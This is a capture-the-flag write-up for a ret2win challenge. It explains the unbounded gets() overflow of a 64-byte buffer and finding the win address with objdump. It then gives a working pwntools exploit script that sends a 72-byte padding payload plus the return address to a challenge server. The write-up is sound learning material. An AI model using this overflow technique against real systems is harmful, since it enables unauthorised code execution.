




## Description

///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.

## Solution

///caption
///
From the challenge title we can see it is a classic Ret2Win challenge. Source code was given too so we can see that there is a buffer of 64 bytes and the vulnerable function gets. `gets()` function is famous because it accepts user input without upper bound, which often leads to bof. So, this challenge is to overflow the buffers and supply it with the win address that prints out the flag.
Reference: [https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)


///caption
///
Get `win` address with `objdump -d | grep win`.


///caption
///
Script with `pwntools`:
```python {frame="none"}
from pwn import *

# Set up the context for the binary
binary_path = './chall'
context.binary = binary_path

# Connect to the remote server
p = remote('3.1.25.253', 9991)

# Find the address of the win function
win_addr = p64(0x00000000004011f6)  # Use p64 for 64-bit address

# Create the payload
# The buffer size is 64 bytes, and the saved RBP is 8 bytes. Hence, we need 72 bytes before we overwrite the return address.
payload = b'A' * 72 + win_addr  # 64 bytes buffer + 8 bytes for saved RBP

# Send the payload
p.sendline(payload)

# Interact with the remote shell
p.interactive()
```